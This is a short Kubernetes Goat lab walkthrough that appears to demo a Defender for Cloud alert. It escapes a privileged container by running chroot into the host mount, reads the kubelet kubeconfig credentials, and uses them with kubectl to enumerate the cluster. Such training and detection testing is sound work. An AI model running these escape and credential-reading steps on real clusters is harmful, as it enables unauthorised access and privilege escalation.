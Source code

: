 # Setup of Kubernetes Goat 

from https://madhuakula.com/kubernetes-goat/

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as /host-system is mounted

```
capsh --print
```

```
mount
```

Now you can explore the mounted file system by navigating to the /host-system path

```
ls /host-system/
```

You can gain access to the host system privileges using chroot

```
chroot /host-system bash
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```
cat /var/lib/kubelet/kubeconfig
```

Using the kubelet configuration to list the Kubernetes cluster-wide resources

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```

Finally, you will see an alert showing up on the Defender for Cloud console similar to this

![container-escape-alert](/images/container-escape.png)

